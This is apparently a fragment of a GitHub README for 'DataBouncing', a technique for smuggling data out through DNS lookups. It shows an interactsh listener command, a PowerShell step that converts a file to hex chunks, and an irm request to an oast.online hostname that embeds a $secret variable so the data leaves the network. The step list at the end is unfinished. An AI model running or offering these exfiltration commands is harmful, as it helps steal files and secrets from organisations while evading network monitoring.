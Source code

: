 # DataBouncing

```
interactsh-client -v -o Logs.txt
```


`$hex = Convert-FileToHexChunks -FilePath .\AST-Test.txt`

```
foreach ($i in $x.PSObject.Properties) {echo $i.Value}
```


```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```
